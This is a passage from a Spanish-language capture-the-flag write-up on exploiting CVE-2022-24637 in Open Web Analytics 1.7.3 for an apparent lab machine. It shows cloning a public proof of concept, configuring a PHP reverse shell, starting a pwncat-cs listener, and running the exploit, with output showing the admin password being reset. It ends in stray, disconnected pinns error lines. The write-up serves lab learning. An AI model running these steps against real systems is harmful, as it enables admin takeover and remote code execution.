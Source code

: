 # Abusing CVE-2022-24637  -> Foothold
Leyendo el código fuente, podemos ver que la versión de `OWA` es la `1.7.3`
![Write-up Image](images/Screenshot_16.png)

Esto ya lo he explotado en la [máquina Analytics de CyberWave](https://pointedsec.github.io/writeups/analytics---cyberwave/#discovering-vulnerable-owa-version) y juraría que en otra más.

Vamos a utilizar [este PoC](https://github.com/0xRyuk/CVE-2022-24637)para conseguir acceso a la máquina. Esta vulnerabilidad consiste en una forma no controlada por la que se consigue reestablecer la contraseña del usuario administrador y se consigue la ejecución remota de comandos mediante los logs inyectando un archivo PHP malicioso.

Primero clonamos el repositorio.
```console
git clone https://github.com/0xRyuk/CVE-2022-24637
Cloning into 'CVE-2022-24637'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 2), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (11/11), 7.75 KiB | 7.75 MiB/s, done.
Resolving deltas: 100% (2/2), done.
```

Y modificamos el archivo `php-reverse-shell.php` estableciendo nuestra IP y nuestro puerto por el que estaremos en escucha.
![Write-up Image](images/Screenshot_17.png)

Ahora nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Lanzamos el exploit.
```console
python3 exploit.py http://openwebanalytics.vessel.htb
[SUCCESS] Connected to "http://openwebanalytics.vessel.htb/" successfully!
[ALERT] The webserver indicates a vulnerable version!
[INFO] Attempting to generate cache for "admin" user
[INFO] Attempting to find cache of "admin" user
[INFO] Found temporary password for user "admin": ecaa1041bc122060dacf9aa1944e2efb
[INFO] Changed the password of "admin" to "rZvuUxXdGaL1WmMJzh7k3EPNGMzmvtbV"
[SUCCESS] Logged in as "admin" user
[INFO] Creating log file
[INFO] Wrote payload to log file
```


[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
[pinns:w]: Failed to create ns file: File exists